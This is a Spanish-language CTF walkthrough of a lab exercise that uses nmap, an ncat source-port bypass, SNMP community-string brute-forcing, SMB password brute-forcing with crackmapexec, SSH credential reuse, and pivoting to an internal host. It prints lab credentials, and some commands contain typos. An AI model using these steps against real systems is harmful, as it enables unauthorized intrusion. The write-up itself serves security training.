# Network-Based Attacks CTF 1

- **Target Systems:**
- `target1.ine.local` - the perimeter host (BR-EDGE01). Reachable from your Kali box. Runs the filtered diagnostic service, SNMP, and SMB, and is your pivot point into the internal segment.
- `target2.ine.local` - the internal file server (FILE02). **Not** reachable directly from your Kali box; it accepts file-share connections only from the perimeter host. You must pivot through `target1.ine.local` to reach it.

- FLAG1
**Task 1: Get the perimeter host to release its diagnostic token**

```bash
sudo nmap -p- -sCV -T5 --min-rate=5000 -n target1.ine.local -oN scanNmap1.txt
```



Se nos dice que hay un servicio levantado que solo responde a conexiones que procedan de un puerto CONOCIDO,con BAJO NÚMERO y CONOCIDO cono DNS (sabemos que DNS actúa sobre el 53 en TCP) y que no responde a puertos origen random y con número alto como los que se establecen automáticamente con Nmap.

Vemos que el puerto 13337 nos devuelve un mensaje que precisamente dice *"access denied diagnostic channel expects mgmt source port"*



Asumiremos que el servicio 13337 es el que solo acepta tráfico tal y como se nos dice en el enunciado de la tarea

Probaremos con **ncat** a conectarnos desde un puerto origen en nuestra máquina 53
```bash
ncat -p 53 target1.ine.local 13337
```



- FLAG2

Se nos dice en la tarea que el host está monitorizado y que la "management layer" nos dará pistas

Uno de los protocolos clásicos de monitorización y gestión es SNMP, para el cual hay un puerto abierto en 199

Comprobaremos el puerto estándar de SNMP en UDP



Cuando consultamos un SNMP normalmente necesitamos una **community string** o nombre compartido

La default es *public*
```bash
snmpwalk -c public -v1 192.43.18.3
```


No obtenemos respuesta por lo que tendremos que intentar encontrar por fuerza bruta la community string

Buscaremos un diccionario de estas community strings
```bash
find /usr/share/seclists -iname '*snmp*' -o -iname '*community*'
```

Con la herramienta **onesixtyone** realizaremos el ataque de fuerza bruta
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 192.43.18.3
```



Encontramos que la community string es **mngt**

Ahora usaremos la community string para recorrer el árbol de OIDs, empezando por el 1
```bash
snmpwalk -v1 -c mngt 192.43.18.3 1
```



Encontramos la flag y una pista que nos dice que SMB y SSH comparten credenciales para el usuario *svc_backup*

Además encontramos la cuenta que nos dice el enunciado que puede servirnos más tarde



noc@ashcroft.local

- FLAG3

```bash
smbclient -N -L target1.ine.local
```



```bash
smbclient -N //tartet1.ine.loca./public
```



```bash
get notice_to_staff.txt
```



- FLAG4

Enumeramos usuarios smb
```bash
crackmapexec smb target1.ine.local --users
```



Descubrimos el usuario *svc_backup*

Probaremos a bruteforcear la contraseña
```bash
crackmapexec smb target1.ine.local -u svc_backup -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```


svc_backup:chocolate

```bash
smbclient //target1.ine.local/backup -U svc_backup -p chocolate
```





Encontramos la FLAG4

Probamos reutilización de credenciales para ssh
```bash
ssh svc_backup@target1.ine.local
```

-> chocolate
svc_bakcup

- FLAG5

Para esta tarea se nos dice que no podemos alcanzar desde nuestro equipo el target. Tendremos que hacer pivoting para descubrir qué esconde el segundo target

Accedemos a la máquina *target1* por ssh y escaneamos por smb la *target2*
```bash
smbclient -N -L target2.ine.local
```



Leemos el archivo



Encontramos la flag5 y credenciales
db_admin:Sql!Backup2024

- FLAG6

Nos conectamos al recurso compartido *sql-backups* del cual hemos obtenido las credenciales en la FLAG5
```bash
smbclient //target2.ine.local/sql-backups -U db_admin
```



Obtenemos la FLAG6
